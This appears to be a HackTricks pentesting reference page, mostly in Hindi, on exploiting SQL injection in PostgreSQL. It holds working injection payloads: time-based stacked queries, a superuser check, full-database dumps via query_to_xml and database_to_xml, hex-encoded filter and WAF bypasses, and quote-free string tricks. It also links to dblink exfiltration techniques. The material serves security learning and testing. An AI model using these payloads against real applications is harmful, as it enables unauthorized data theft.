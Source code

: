 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**यह पृष्ठ विभिन्न तकनीकों को समझाने का लक्ष्य रखता है जो आपको एक पोस्टग्रेएसक्यूएल डेटाबेस में पाए गए SQL इंजेक्शन का शोषण करने में मदद कर सकती हैं और उन तकनीकों को पूरा कर सकती हैं जो आप** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **पर पा सकते हैं।**

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**PostgreSQL मॉड्यूल `dblink`** अन्य PostgreSQL उदाहरणों से कनेक्ट करने और TCP कनेक्शन निष्पादित करने की क्षमताएँ प्रदान करता है। ये सुविधाएँ, `COPY FROM` कार्यक्षमता के साथ मिलकर, विशेषाधिकार वृद्धि, पोर्ट स्कैनिंग, और NTLM चुनौती प्रतिक्रिया कैप्चर जैसी क्रियाओं को सक्षम बनाती हैं। इन हमलों को निष्पादित करने के विस्तृत तरीकों के लिए देखें कि [इन हमलों को कैसे करें](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md)।

### **dblink और बड़े ऑब्जेक्ट्स का उपयोग करके एक्सफिल्ट्रेशन उदाहरण**

आप [**इस उदाहरण को पढ़ सकते हैं**](dblink-lo_import-data-exfiltration.md) यह देखने के लिए कि **कैसे बड़े ऑब्जेक्ट्स के अंदर डेटा लोड करें और फिर `dblink_connect` फ़ंक्शन के उपयोगकर्ता नाम के अंदर बड़े ऑब्जेक्ट्स की सामग्री को एक्सफिल्ट्रेट करें।**

## PostgreSQL हमले: पढ़ें/लिखें, RCE, प्रिवेस्क

देखें कि PostgreSQL से होस्ट को कैसे समझौता करें और विशेषाधिकार कैसे बढ़ाएं:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF बायपास

### PostgreSQL स्ट्रिंग फ़ंक्शन

स्ट्रिंग्स को मैनिपुलेट करना आपको **WAFs या अन्य प्रतिबंधों को बायपास करने में मदद कर सकता है।**\
[**इस पृष्ठ में**](https://www.postgresqltutorial.com/postgresql-string-functions/)**आप कुछ उपयोगी स्ट्रिंग फ़ंक्शन पा सकते हैं।**

### स्टैक्ड क्वेरीज़

याद रखें कि PostgreSQL स्टैक्ड क्वेरीज़ का समर्थन करता है, लेकिन कई एप्लिकेशन एक त्रुटि फेंक देंगे यदि 2 प्रतिक्रियाएँ लौटाई जाती हैं जबकि केवल 1 की अपेक्षा की जाती है। लेकिन, आप अभी भी टाइम इंजेक्शन के माध्यम से स्टैक्ड क्वेरीज़ का दुरुपयोग कर सकते हैं:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML ट्रिक्स

**query\_to\_xml**

यह फ़ंक्शन केवल एक फ़ाइल में XML प्रारूप में सभी डेटा लौटाएगा। यदि आप केवल 1 पंक्ति में बहुत सारा डेटा डंप करना चाहते हैं तो यह आदर्श है:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

यह फ़ंक्शन पूरे डेटाबेस को XML प्रारूप में केवल 1 पंक्ति में डंप करेगा (यदि डेटाबेस बहुत बड़ा है तो सावधान रहें क्योंकि आप इसे DoS कर सकते हैं या यहां तक कि अपने स्वयं के क्लाइंट को भी):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

यदि आप **क्वेरीज़** चला सकते हैं जो **एक स्ट्रिंग के अंदर** पास की जाती हैं (उदाहरण के लिए **`query_to_xml`** फ़ंक्शन का उपयोग करके)। **आप hex के रूप में स्ट्रिंग पास करने के लिए convert\_from का उपयोग कर सकते हैं और इस तरह फ़िल्टर को बायपास कर सकते हैं:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### निषिद्ध उद्धरण

यदि आप अपने पेलोड के लिए उद्धरण का उपयोग नहीं कर सकते हैं, तो आप इसे `CHR` के साथ बायपास कर सकते हैं बुनियादी क्लॉज़ के लिए (_अक्षर संयोजन केवल बुनियादी प्रश्नों जैसे SELECT, INSERT, DELETE, आदि के लिए काम करता है। यह सभी SQL बयानों के लिए काम नहीं करता_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
या `$` के साथ। ये क्वेरी समान परिणाम लौटाती हैं:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अचूक को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक है_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
